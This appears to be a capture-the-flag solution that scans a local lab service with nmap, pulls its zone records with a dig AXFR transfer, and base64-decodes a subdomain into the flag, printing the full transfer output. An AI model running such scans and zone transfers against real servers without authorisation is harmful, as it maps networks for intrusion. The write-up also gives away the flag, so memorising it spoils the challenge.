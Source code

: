 # solution
- service fingerprinting
    -`nmap -sV <IP> -p 2211`
    - bind -> DNS
- zone transfer using dig
    - iterate new TLDs
    - `dig -p 2211 axfr @<IP> deans-transfers.express`
- base64-decode
    - `aGUyMDIye2QzNG5fZHIxdjNzX3lvdV8zdjNyeXdoM3IzISF9` -> flag

```
>> dig -p 2211 axfr @127.0.0.1 deans-transfers.express

; <<>> DiG 9.10.6 <<>> -p 2211 axfr @127.0.0.1 deans-transfers.express
; (1 server found)
;; global options: +cmd
deans-transfers.express. 302400	IN	SOA	deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
deans-transfers.express. 302400	IN	NS	ns.deans-transfers.express.
aGUyMDIye2QzNG5fZHIxdjNzX3lvdV8zdjNyeXdoM3IzISF9.deans-transfers.express. 302400 IN A 10.0.0.8
base64decode.deans-transfers.express. 302400 IN	A 10.0.13.9
ns.deans-transfers.express. 302400 IN	A	10.0.0.2
deans-transfers.express. 302400	IN	SOA	deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
;; Query time: 4 msec
;; SERVER: 127.0.0.1#2211(127.0.0.1)
;; WHEN: Sat Jan 15 10:30:06 CET 2022
;; XFR size: 6 records (messages 1, bytes 281)
```